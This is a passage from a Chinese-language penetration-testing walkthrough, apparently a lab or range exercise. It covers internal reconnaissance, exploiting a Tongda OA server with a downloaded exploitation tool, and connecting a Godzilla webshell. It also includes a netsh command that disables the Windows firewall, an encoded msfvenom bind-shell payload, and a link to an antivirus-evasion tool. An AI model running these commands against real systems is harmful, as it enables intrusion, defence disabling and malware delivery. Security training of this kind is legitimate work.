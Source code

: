 成功获取密码，之后用远程桌面连接即可


# 内网信息收集
查看路由表
```
arp -a
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/c8e5f1baa70d41a28a43193ece60894f.png)

我们拿下的这台主机内网ip是10.10.1.131，这个10.10.1.130是未知的，估计是内网的另一台主机

由于内网另一台机子开启了防护软件，无法ping通和扫描，我们直接访问80端口去测试

浏览器设置代理

![在这里插入图片描述](https://img-blog.csdnimg.cn/1ea74ccbbf884b58a5c552a952d7ebf8.png)

访问10.10.1.130

![在这里插入图片描述](https://img-blog.csdnimg.cn/8097a015694d4249b19479f88b271e3f.png)

# 拿下Windows server 2012-oa
这是一个通达的后台OA，Google搜索相关的漏洞和poc即可
```
https://pan.baidu.com/s/14aKGmg_jmyAJHzHjgYJQHQ

提取码：hx1y
```
进入文件夹后运行这个命令
```
proxychains4 java -jar 通达OA综合利用工具_圈子社区专版.jar
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/7e178458cd4147f5ae4884a97b57a5ec.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/8b7073cc44a1426bb21aaa4aff8bbbf7.png)


启动哥斯拉连接这个url
```
https://github.com/BeichenDream/Godzilla/releases/tag/v4.0.1-godzilla
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/323d7d2c618e485f88c82dce291f25b3.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/008171be73ea4de6b3f9a8df2bb5a112.png)

连接成功
```
NetSh Advfirewall set allprofiles state off
```
关闭windows防火墙
# 拿下最终主机
## 转移shell
由于目标不出网，我们只能生成一个正向shell木马来将shell转移到msf里
```
msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -e x86/shikata_ga_nai -i 20 -f c -o 123.txt
```
使用这个工具进行一个简单的免杀
```
https://github.com/1y0n/AV_Evasion_Tool/releases/tag/2.0
```